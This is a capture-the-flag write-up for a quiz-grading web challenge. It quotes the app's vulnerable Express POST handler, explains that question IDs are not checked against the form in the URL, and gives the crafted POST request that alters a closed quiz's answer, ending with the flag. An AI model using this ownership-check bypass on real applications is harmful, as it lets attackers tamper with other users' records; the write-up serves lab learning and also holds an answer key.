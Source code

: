 # Grading

Application doesn't let me submit through form. 
When creating a post request to
`http://localhost.:3000/60c8af178108ed125476b517`
it returns
```json
{"response":"heh"}
```

Application returns flag if all answers are correct and deadline has passed

We cannot change the date anyway so we have to somehow modify the already failed quiz. 

App handles post request to formId like this
```javascript
.post(authMW, (req, res) => {
    const now = Date.now()
    const form = req.user.forms.id(req.params.formID)
    console.log(form)
    console.log(req.body)
    if(now > form.deadline) {
        res.json({response: "too late"})
    } else {
        if(req.body.ID) {
            const question = req.user.questions.id(req.body.ID)
            console.log(question);
            question.submission = req.body.value
            req.user.save()
        } else {
            form.submitted = true
            req.user.save()
        }

        res.json({response: "heh"})
    }

})
```

It doesn't check if question id belongs to a right quiz when creating a submission. So we can create a post request where param `formId` is the allowed form. Then the request body needs `ID` which will be the question from `simpleQuiz` form and `value` will be 'Africa is not a country'

```
POST /60c8af178108ed125476b517 HTTP/1.1

ID=60c8af178108ed125476b514&value=Africa is not a country
```

simpleQuiz response now includes the flag
```
 <h2>The deadline has passed. You got 1 questions right.</h2>

            <p>here is the flag: <b>flag{th3_an5w3r_w4s_HSCTF_0bvi0us1y}</b></p>
```

## Flag
flag{th3_an5w3r_w4s_HSCTF_0bvi0us1y}